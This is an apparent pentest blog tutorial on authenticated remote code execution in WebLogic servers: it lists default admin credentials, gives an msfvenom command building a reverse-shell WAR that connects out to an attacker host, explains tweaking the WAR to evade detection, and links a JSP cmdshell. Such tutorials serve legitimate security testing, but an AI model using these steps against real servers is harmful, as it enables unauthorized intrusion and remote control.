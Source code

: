 ```yaml
---
layout: post
title: Authenticated RCE in Weblogic Servers
excerpt_separator: <!--more-->
---
```


Weblogic servers are popular in pentests as outdated versions have RCE vulnerabilities with public exploits. However, you can exploit them uploading WAR files as well.

<!--more-->


## Getting access to Weblogic Server

You may find a version of WebLogic Administration Console interface affected by vulnerabilities such as CVE-2020-14882, but it is not always possible to exploit them because of network or system restrictions.

Nevertheless, you can get access by obtaining admin credentials and uploading a malicious application. Some of the default credentials are:

- weblogic:Welcome1

- weblogic:weblogic

- system:weblogic

It usually runs in port 7001 but you can find it in any port.


## Creating WAR file

If you know there are no antivirus or EDR running in the system or you do not care about being detected, you can try uploading a WAR file generated with msfvenom using the parameter "-f war":

```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > malicious.war
```

This is not the stealthiest method but we can use this file to generate a better WAR file, by decompressing it (it is like a zip file), update the files and compress it again later. The file structure is the following:

- META-INF/MANIFEST.MF
- WEB-INF/web.xml
- evxanqiqlxbhun.jsp

The only thing you should see different is the JSP file name.

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/0.png)

We will change the random characters in "web.xml":

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/1.png)

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/2.png)

And the JSP name to "index.jsp". If we remove the line 3 in the file, we can add any non-malicious code to test the JSP code is executed.

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/4.png)

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/5.png)

Then we create a WAR compressed file: 

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/3.png)


## Upload malicious WAR file

To upload the file and deploy the malicious application we can follow [this IBM guide](https://www.ibm.com/docs/en/control-desk/7.6.0.2?topic=scenario-deploy-application-files-oracle-weblogic-server).

We must access the web interface and click "Lock & Edit" and then "Deployments" link in the "Domain Structure" section. 

...
...
...


It is possible to execute JSP code so now we can create a new WAR file containing a cmdshell, such as [this one](https://gist.github.com/nikallass/5ceef8c8c02d58ca2c69a29a92d2f461).
